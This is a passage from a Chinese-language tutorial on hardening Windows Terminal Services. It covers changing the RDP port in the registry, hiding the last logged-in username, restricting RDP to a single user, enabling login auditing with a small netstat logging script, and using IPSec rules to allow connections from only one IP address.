

图 1

有没有看到那个 PortNumber 项？它的值是 16 进制，就是 3389，它是终端打开后默认开启的值。我们选定它并按右键修改时，选 10 进制它就显示为 3389，将它改成我们要修改的端口号后确定退出。接着，再打开 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp` 子键，如图 2 所示。

还是那个 PortNumber 项，将它的值改成跟刚才修改时的值一样。注意：两个项的值一定要相同。



修改完成后，必须重新启动才能生效。

当然，连接的客户端也要做相应的改动，现在我们在客户端连接管理器新建一个连接，建成后再导出，用记事本打开它并找到 server port，如图 3 所示。



将 server port 后面的值改成要连接端口的值。

保存后再导入到客户端连接管理器，以后我们就可以用它来连接了。

这下我们的终端服务可以减少很多不必要的攻击了。试问，你会用终端客户端无目的地去连接一个非 3389 的端口（如 1234 端口）吗？

## 二、隐藏登录的用户名

在系统安装完成后，如果不做修改，在下次登录时，会显示上一次登录时的用户名，微软在此也将这个功能应用到了终端服务中来。这个很容易被有心人所利用，因为对方可以不厌其烦地连接到终端服务器尝试我们管理员的密码。不行不行，我们来将上次登录的用户名隐藏起来。打开注册表，找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon` 子键下的 `DontDisplayLastUserName` 项，默认值是 0，将它的值改成 1，如图 4 所示。



重新启动后，我们上次登录的用户名就没有显示出来了。

怎么样，世界清静了很多吧？

## 三、指定用户登录

在默认情况下，任何具有 admin 权限的用户都可以通过终端连接到我们的服务器。我认为，这会给我们的管理、安全带来一些不必要的麻烦。虽然一台服务器在正常情况下具有 admin 权限的用户不会很多，但我认为在这个流行 bug 的时代，服务器被攻克，已不再是什么新鲜事。当对方获得我们的服务器的一个 shell 之后，就可以建具有 admin 权限的用户通过终端连接上来，那不是给他一种如入无人之境的感觉？我们是不能接受的。通常，我们管理一台服务器都用固定的一两个管理员用固定的一个用户登录管理，没有必要让所有 admin 权限的用户远程登录上来。所以，我们有必要限制不必要的用户的登录。我们来做个限制，打开“开始”→“程序”→“管理工具”→“终端服务配置”，选“连接”，再选右边的“RDP-TCP”的属性，找到“权限”选项，删除 administrators 组，然后再按添加来将我们允许通过终端连接上来的用户，比如我们只允许 nettff 用户可以登录，其他用户一律不允许，结果如图 5 所示。



确定后退出。这时我们连接到服务器，不管你用的用户权限有多大，只要以非 nettff 用户登录，这时都会收到一个不允许登录的对话框，如图 6 所示。而用 nettff 用户则能够正常登录，这应该是一个不错的管理方法吧？



## 四、启动审核

接下来有一个问题，就是我想知道究竟有多少人连接到我的终端服务并用我的账号登录，那怎么办？系统本身不是有审核功能吗？它能不能像审核本地机器一样对终端进行审核呢？有，终端也有自己的日志。不过，终端服务在默认情况下，它的安全日志是不打开的，我们来打开它。

在图 5 所示的对话框的左下角，有一个“高级”按钮，按它进入，选“审核”选项，再按“添加”，用户选 everyone 组，在访问处选“登录”的成功与失败及“注销”“断开”的成功即可，如图 7 所示。

如果选太多了看都没时间看。不过，要使它真正记录，系统自身的审核策略还是得打开的，否则它自己不会记录。



不过，这里也有一个缺点，那就是它只记录客户端的计算机名而不是 IP：（如果对方起个奇奇怪怪的计算机名，那……很多朋友为解决这个问题，就自己写脚本来解决。写脚本、程序就要各显神通了，以下给出一个很多人都用的 bat 脚本：

```
bat
time /t>>TSLog.log
netstat -n -p tcp|find ":3389">>TSLog.log
start Explorer
```

这个脚本就是监视本机的 3389 端口的连接情况，如果有连接就记录连接时服务器的当前时间及连接机器的 IP 地址。这个脚本很简单也很实用。

## 五、限制、指定连接终端的地址

只要我们连上因特网，我们就可以访问因特网上的任意一台计算机，同样，因特网上的任意一台计算机也可以连接我们。也就是说，因特网上任何一台装有终端客户端的机器都可以连接到我们的终端服务器，“替”我们管理服务器，虽然我们的服务器在上面已经做了大量的安全工作，但我认为这还是不够的。

举个例子：我有一台服务器托管放在北京，有时我要通过终端连上去进行管理，由于我的服务器在因特网上，那么整个因特网的机器都可以连接它。虽然我们的服务器做了相应的设置，对方没有得逞，但毕竟他可以连上去并尝试用我的密码来登录。用账户锁定吧！那有时真的也把我锁在外面，不行不行！有什么更好的办法吗？

对策如下：在服务器上用系统自带的 IPSEC 来指定特定的 IP 地址可以连接终端服务器，其他非指定的 IP 地址一律拒绝，就是给他们连接的机会都没有。

假设：我们有固定的 IP 地址上网并通过它上网管理我们的服务器，如我们上网的 IP 地址是 111.111.111.111。我们在终端服务器设置只允许 IP 地址为 111.111.111.111 的用户可以连接 3389 端口，其他的 IP 地址一律拒绝。在 IPSEC 操作如下：

打开服务器的“开始”→“程序”→“管理工具”→“本地安全策略”选“IP 安全策略，在本地机器”，在右边的空白处按右键，选“创建 IP 安全策略”这时打开一个对话框，下一步→给策略取名（如 3389）→不选“激活默认响应规则”→“完成”，这时会打开一个对话框，是新建立策略（3389）的属性。

上面创建的 IP 安全策略只是一个开始，它里面是没有什么实际内容的，现在我们来创建我们想要的规则。不选“使用添加向导”前面的框（由于 IPSEC 使用起来给人的感觉是非常复杂，为了让读者尽量明白操作的过程、目的，在这一步我认为不使用向导更让人明了）再按“添加”出现“新规则”的属性，由于我们先前没有建过什么规则，所以这里只有默认的两个选项且没有选中，这些不是我们需要的，我们必须新建规则。再按“添加”按钮，出现“IP 筛选器列表”给它起个名称，就叫 all_3389 吧，不选“使用添加向导”再按“添加”，在打开的对话框中，设置成如图 8、图 9 所示一样的设置。





按“确定”、“关闭”回到“新规则”属性窗口，选中刚设置的规则“all_3389”，再按“筛选器操作”选项，“筛选器操作”选项里面没有我们要的阻止选项，我们新建一项阻止。还是不选“使用添加向导”，按“添加”，在弹出的对话框中，在“安全措施”处选“阻止”项，如图 10 所示。

再按“常规”，在“名称”处给它起个名称，如“阻止 3389”，确定后回到“新规则”属性的“筛选器操作”处，选中刚建立的“阻止 3389”，再按“关闭”→“关闭”回到开始时的“本地安全设置”对话框，选中“3389”后按右键，选“指派”，这样任何机器就无法通过 3389 端口连接到我们的服务器了。



同样，服务器也把我们关在外面。这不是我们所需要的，现在我们来建一条允许 IP 地址为 111.111.111.111 的机器，可以连接到我们的服务器。打开“3389”的属性，不选“使用添加向导”，按“添加”，打开“新规则”属性，再按“添加”，出现“IP 筛选器列表”，给它起个名称，就叫“me_3389”吧，不选“使用添加向导”再按“添加”出现“筛选器”属性，“寻址”选项设置成如图 11 所示一样的设置。

协议处设成跟图 9 一样。按“确定”→“关闭”回到“新规则”属性窗口，选“me_3389”，转换到“筛选器操作”选项，“筛选器操作”里面默认有一项我们要的“允许”选项，选中它，然后按“关闭”→“关闭”退出。

至此，我们的目的已完成。也许你会问，在系统中，通常是阻止优先于通过，在这里怎么是阻止了又让通过？由于通过的规则比阻止规则定的范围要小、详细，系统会优先采用，这不同于系统在设置权限时拒绝优于允许的规则。所以，我们上面的两条规则是没有矛盾的。

设置完成后，确定回到“本地安全策略”处，要使设置生效，必须选定它并按右键选“指派”，如果想不用它再按“不指派”即可，方便吧！

现在，我们来试试上面的设置是否有效，自己试试就知道了。由于服务器只对指定 IP 地址的机器开放 3389 端口，所以非指定 IP 地址的机器是没有办法连上去的。这时，我们在指定允许连接的机器跟不允许连接的机器上对目标机器进行扫描发现，允许连接的机器能扫到服务器开放 3389 端口，而不允许连接的机器没有扫到 3389 端口，对这些不允许连接的机器来说，目标机群根本没有开 3389 端口。

